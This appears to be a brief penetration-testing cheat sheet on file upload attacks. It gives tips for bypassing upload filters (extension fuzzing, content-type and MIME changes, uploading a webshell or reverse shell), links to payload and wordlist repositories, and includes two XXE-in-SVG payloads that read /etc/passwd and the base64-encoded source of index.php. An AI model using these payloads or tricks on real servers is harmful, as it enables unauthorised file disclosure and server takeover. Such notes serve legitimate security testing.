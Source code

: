 ```yaml
---
title: File upload attacks
---
```


# File upload attacks
- [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)

## Tips
- Fuzz file extensions for whitelisted and blacklisted, try uncommon extensions
- Change content type when uploading
- Change MIME type when uploading
- Upload webshell or reverse shell

## Extension wordlists
- [web extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- [php extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

## XXE with SVG
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```